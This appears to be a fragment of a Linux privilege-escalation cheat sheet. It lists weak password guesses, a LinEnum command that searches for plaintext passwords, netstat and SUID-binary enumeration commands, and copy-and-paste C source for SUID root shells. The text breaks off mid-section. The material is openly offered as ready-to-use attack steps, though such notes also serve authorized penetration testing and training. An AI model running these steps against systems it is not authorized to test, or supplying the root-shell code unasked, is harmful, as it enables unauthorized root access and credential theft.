 ```
pkg_info
```


### Weak/reused/plaintext passwords

- Check database config-file
- Check databases
- Check weak passwords

```
username:username
username:username1
username:root
username:admin
username:qwerty
username:password
```

- Check plaintext

```
./LinEnum.sh -t -k password
```

### Inside service

```
# Linux
netstat -anlp
netstat -ano
```

### Suid misconfiguration

Binary with suid permission can be run by anyone, but when they are run they are run as root!

Example programs:

```
nmap
vim
nano
```

```
find / -perm -u=s -type f 2>/dev/null
```


### SUID (Set owner User ID up on execution)

below are some quick copy and paste examples for various shells:

```
SUID C Shell for /bin/bash  

  int main(void){  
  setresuid(0, 0, 0);  
  system("/bin/bash");  
  }  

  SUID C Shell for /bin/sh  

  int main(void){  
  setresuid(0, 0, 0);  
  system("/bin/sh");  
  }  

  Building the SUID Shell binary  
```